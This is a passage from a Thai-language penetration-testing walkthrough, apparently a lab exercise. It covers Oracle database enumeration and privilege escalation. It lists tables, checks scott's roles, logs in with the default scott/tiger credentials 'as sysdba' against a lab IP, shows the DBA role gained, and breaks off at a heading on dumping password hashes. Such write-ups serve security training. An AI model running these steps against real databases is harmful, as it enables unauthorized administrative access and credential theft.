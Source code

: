 ```sql
SQL> select table_name from all_tables;

TABLE_NAME
------------------------------
DUAL
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
...
```

### ตรวจสอบสิทธิ์ของ User

```sql
SQL> select * from user_role_privs;

USERNAME    GRANTED_ROLE    ADM DEF OS_
----------- --------------- --- --- ---
SCOTT       CONNECT         NO  YES NO
SCOTT       RESOURCE        NO  YES NO
```

ผลลัพธ์: User `scott` **ไม่มีสิทธิ์ผู้ดูแลระบบ** (administrative privileges)

## การยกระดับสิทธิ์ (Privilege Escalation)

### Login เป็น SYSDBA

```bash
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

**SYSDBA** = System Database Admin (สิทธิ์สูงสุด)

### ตรวจสอบสิทธิ์หลัง Login เป็น SYSDBA

```sql
SQL> select * from user_role_privs;

USERNAME    GRANTED_ROLE                ADM DEF OS_
----------- --------------------------- --- --- ---
SYS         ADM_PARALLEL_EXECUTE_TASK   YES YES NO
SYS         APEX_ADMINISTRATOR_ROLE     YES YES NO
SYS         DBA                         YES YES NO
SYS         DATAPUMP_EXP_FULL_DATABASE  YES YES NO
...
```

✅ **ได้สิทธิ์ระดับสูง!** รวมถึง DBA role

## การดึงข้อมูลที่สำคัญ

### ดึง Password Hashes
